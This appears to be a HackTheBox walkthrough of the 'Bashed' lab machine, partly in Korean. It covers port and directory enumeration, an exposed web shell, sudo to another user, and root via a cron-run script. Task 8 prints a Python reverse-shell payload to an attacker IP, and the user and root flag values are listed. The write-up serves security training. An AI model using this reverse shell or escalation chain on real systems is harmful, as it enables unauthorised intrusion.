









# HackTheBox Walkthrough - Machine: Bashed

**Target IP**: 10.129.188.137  
**Difficulty**: Easy  
**Objective**: Exploit exposed web shell to escalate privileges and capture user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Bashed?

```bash
nmap -sV -sC -oA nmap/Bashed 10.129.188.137
```


```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

**Answer**: `1`

---

### 🔍 Task 2: What is the relative path on the webserver to a folder that contains phpbash.php?

```bash
gobuster dir -u http://10.129.188.137/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
  


→ `/dev` 디렉토리에 `phpbash.php` 확인

**Answer**: `/dev`

---

### 👤 Task 3: What user is the webserver running as on Bashed?

`whoami` 명령 실행 결과:


**Answer**: `www-data`

---

## 🧑‍💻 Task 4 - Capture User Flag

```bash
cat /home/arrexel/user.txt
```


**Answer**: `a8e03631cd4c2a095a4304b339d3d039`

---

### 🔒 Task 5: www-data can run any command as a user without a password. What is that user's username?

```bash
sudo -l
```


**Answer**: `scriptmanager`

---

### 📁 Task 6: What folder in the system root can scriptmanager access that www-data could not?

```bash
ls -al /
```


**Answer**: `/scripts`

---

### 🐍 Task 7: What is filename of the file that is being run by root every couple minutes?

```bash
sudo -u scriptmanager ls /scripts
```

→ `test.py` 가 주기적으로 실행 중

**Answer**: `test.py`

---

## 👑 Task 8 - Capture Root Flag

리버스 셸이 root로 연결되고, `/root/root.txt`에서 플래그 확인:
  
  


```python
# /scripts/test.py 내용
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.94/4444 0>&1'")
```

```bash
cat /root/root.txt
```

**Answer**: `05b5cbc044c18849238237bd4f672e8c`

---
